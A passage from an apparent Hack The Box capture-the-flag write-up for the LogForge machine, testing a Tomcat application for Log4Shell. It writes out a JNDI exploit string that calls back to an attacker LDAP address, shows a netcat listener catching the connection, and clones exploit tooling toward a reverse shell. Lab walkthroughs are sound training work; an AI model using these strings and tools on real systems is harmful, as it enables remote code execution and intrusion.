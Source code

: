 Looks like we cant upload files more than the size of 1 bytes.So we cant get our reverse shell through this method.

# # `Log4j` -

We know that Tomcat is Java based,this means that there is a strong likelihood that log4j is supported and is being used for logging. We can quickly check if it’s vulnerable to [log4shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) by passing the following JNDI exploit strings in one of the text boxes that allow user input -

```bash
${jndi:ldap://10.10.14.127:9001/file}
```

![[Pasted image 20220107120859.png]]

Start your netcat listener -

```bash
root@napster:~/Documents/HTB/LogForge# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.127] from (UNKNOWN) [10.10.11.138] 56976
0
 `

```

And indeed we see a connection.

Now to get a proper reverse shell we need some tools -

1. We will use a slightly tweaked version of ysoserial called [ysoserial-modiefied](https://github.com/pimps/ysoserial-modified). This allows us to use more complex commands in our payload.

```bash
root@napster:/opt# git clone https://github.com/pimps/ysoserial-modified
Cloning into 'ysoserial-modified'...
remote: Enumerating objects: 324, done.
remote: Total 324 (delta 0), reused 0 (delta 0), pack-reused 324
Receiving objects: 100% (324/324), 84.22 MiB | 256.00 KiB/s, done.
Resolving deltas: 100% (94/94), done.
```

2. We will use [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) to provide LDAP services and also since it supports staging ysoserial payloads.

```bash
root@napster:/opt# git clone https://github.com/pimps/JNDI-Exploit-Kit
Cloning into 'JNDI-Exploit-Kit'...
remote: Enumerating objects: 328, done.
remote: Counting objects: 100% (328/328), done.
remote: Compressing objects: 100% (232/232), done.
remote: Total 328 (delta 123), reused 230 (delta 61), pack-reused 0
Receiving objects: 100% (328/328), 27.74 MiB | 802.00 KiB/s, done.
Resolving deltas: 100% (123/123), done.
```
